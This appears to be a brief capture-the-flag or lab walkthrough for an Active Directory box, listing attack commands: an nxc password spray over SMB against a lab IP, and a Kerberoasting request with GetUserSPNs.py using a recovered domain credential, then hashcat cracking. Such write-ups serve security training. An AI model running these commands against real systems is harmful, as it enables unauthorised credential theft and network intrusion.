




We can find the website and it has a list of team members:


Now we can add this to a users.txt and bruteforce for passwords:

```
nxc smb 192.168.182.21 -u users.txt -p /usr/share/seclists/Passwords/common_corporate_passwords.lst
```
Now we get the password.

Now kerberoasting:
```
GetUserSPNs.py nagoya-industries.com/Fiona.Clark:Summer2023 -request
```

We can crack it with hashcat
